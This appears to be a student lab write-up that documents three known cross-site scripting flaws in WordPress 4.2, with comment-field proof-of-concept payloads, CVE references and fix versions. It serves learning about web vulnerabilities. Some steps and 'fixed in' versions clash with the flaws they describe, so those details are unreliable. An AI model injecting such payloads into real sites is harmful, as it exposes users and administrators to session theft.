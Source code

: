 # Cyber-Security

Time spent: 8 hours spent in total

Objective: Search, Retrive, process, recreate, and document 3 vulnerability on this version of WordPress

Version of WordPress Tested: 4.2

Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
Hover over the posted comment.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8133

[Link 2] Reference: https://core.trac.wordpress.org/changeset/33549

[Link 3] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://imgur.com/a/uaj7O

Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress 3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8358

[Link 2] Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87

[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://imgur.com/a/oHP7b

Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
Click on the button.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8489

[Link 2] Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/

[Link 3] Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8

[Link 4] Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e

[Link 5] Reference: http://avlidienbrunn.com/wp_some_loader.php

[Link 6] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://imgur.com/a/7gK3e
